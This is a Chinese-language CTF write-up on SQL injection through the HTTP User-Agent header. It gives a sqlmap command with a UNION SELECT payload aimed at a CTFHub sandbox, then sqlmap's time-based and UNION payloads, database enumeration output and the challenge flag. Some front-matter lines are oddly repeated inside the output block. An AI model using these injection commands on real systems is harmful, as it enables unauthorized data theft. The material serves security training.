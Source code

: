 ```yaml
---
cover: https://w.wallhaven.cc/full/2e/wallhaven-2e75qx.jpg
created: 2024-11-27T22:18
date: 2024-11-23 23:07:37+00:00
lastmod: 2024-11-24 00:02:15+00:00
tag: web渗透
title: UA注入
updated: 2024-12-30T23:33
---
```




# UA注入

## 

UA是什么？UA也称User-Agent，当用户发起一个请求时，网站会通过判断 UA的数据，如（名称，版本，浏览器内核，内核版本）等等，来给不同的操作系统，不同的浏览器发送不同的页面

一般来说，普通的 SQL 注入是对 URL 及参数进行的，但这里攻击者却将 SQL 查询语句隐藏在了 HTTP 头部的User-Agent字段之中 ，也称UA注入

SQLMap 的 User-Agent (UA) 注入是一种利用应用程序在处理 HTTP User-Agent 头部时存在的 SQL 注入漏洞的技术。攻击者通过修改 User-Agent 头部中的数据来注入恶意 SQL 代码，从而获取数据库信息或执行其他恶意操作。

**如何利用 SQLMap 进行 UA 注入：**

SQLMap 本身并不直接支持“UA 注入”作为一种独立的注入类型。 它主要关注参数化的 SQL 注入。然而，如果一个应用程序的 User-Agent 头部被不安全地处理，导致其值被包含在 SQL 查询中，那么 SQLMap 可以用来测试和利用这个漏洞。 你需要告诉 SQLMap 将 User-Agent 头部作为测试参数。

步骤如下：

1. **识别潜在漏洞：**  首先，你需要确定目标应用程序是否存在 User-Agent 头部处理不当的漏洞。这通常需要进行手动测试或使用其他工具进行扫描。 例如，你可以尝试修改 User-Agent 头部，观察应用程序的响应是否发生变化，或者是否出现错误信息。
2. **使用 SQLMap 进行测试：**  一旦你确定存在潜在漏洞，可以使用 SQLMap 进行测试。 关键在于使用 `--user-agent`​ 参数指定 User-Agent 头部，并使用 `-p`​ 参数指定 User-Agent 作为测试参数。 由于 User-Agent 通常不是一个标准的请求参数，你可能需要一些额外的技巧。  
    例如：

    ```
    sqlmap -u "http://challenge-1cceef5ca6ef24ec.sandbox.ctfhub.com:10800/" --user-agent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36'+UNION+SELECT+1,2,3--" -p "User-Agent"
    ```

    在这个例子中：

    * ​`-u "http://target.com/page.php"`​ 指定目标 URL。
    * ​`--user-agent="..."`​ 设置 User-Agent 头部，其中包含一个简单的 UNION SELECT 测试语句。 你需要根据具体情况修改注入语句。
    * ​`-p "User-Agent"`​ 告诉 SQLMap 将 User-Agent 头部作为测试参数。
3. **分析结果：**  SQLMap 将尝试不同的注入技术，并根据结果判断是否存在漏洞。 如果 SQLMap 发现漏洞，它将提供有关数据库的信息，例如数据库类型、版本、用户等。

‍

```shell
---
Parameter: User-Agent (User-Agent)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: Mozilla/5.0 (X11; U; Linux i686; en-US; rv:1.8.1.9) Gecko/20071103 Firefox/2.0.0.9 (Swiftfox) AND (SELECT 5455 FROM (SELECT(SLEEP(5)))vwyE)# uOgB

    Type: UNION query
    Title: Generic UNION query (random number) - 2 columns
    Payload: -3044 UNION ALL SELECT CONCAT(0x717a787671,0x436c6f7263544a7473717063674f6742757550596162746662686b566368784f6d79775567594974,0x7170707671),3573-- -
tags: [web渗透]
title: UA注入
title: UA注入
title: UA注入
tags: [web渗透]
title: UA注入
tags: [web渗透]
---
```

```shell
available databases [4]:                                                                                             
[*] information_schema
[*] mysql
[*] performance_schema
[*] sqli
```

```shell
Database: sqli                                                                                                       
[2 tables]
+------------+
| htlcwkgzgr |
| news       |
+------------+
```

```shell
Database: sqli
Table: htlcwkgzgr
[1 column]
+------------+--------------+
| Column     | Type         |
+------------+--------------+
| hhuhfrudir | varchar(100) |
+------------+--------------+
```

```shell
Database: sqli
Table: htlcwkgzgr
[1 entry]
+----------------------------------+
| hhuhfrudir                       |
+----------------------------------+
| ctfhub{0d92a40284dade61e614dd4d} |
+----------------------------------+
```

‍

